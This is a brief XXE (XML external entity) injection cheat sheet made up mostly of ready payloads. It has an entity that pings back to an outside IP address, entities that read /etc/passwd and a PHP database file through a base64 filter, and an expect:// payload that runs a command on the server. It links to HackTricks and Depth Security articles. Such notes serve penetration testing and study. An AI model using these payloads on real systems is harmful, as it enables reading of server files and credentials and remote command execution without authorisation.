# xml external entity XXE

## Get ping back

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.16.161"> %xxe; ]>
# usage
<var>&xxe;</var>
```

## Read File

```
# using php-base64 when reading file that are not being loaded
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>

<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/etc/passwd"> ]>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

# usage
<var>&xxe;</var>
```

## RCE using expect (PHP)

```
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "expect://id"> ]>
```

{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity" %}

{% embed url="https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection" %}
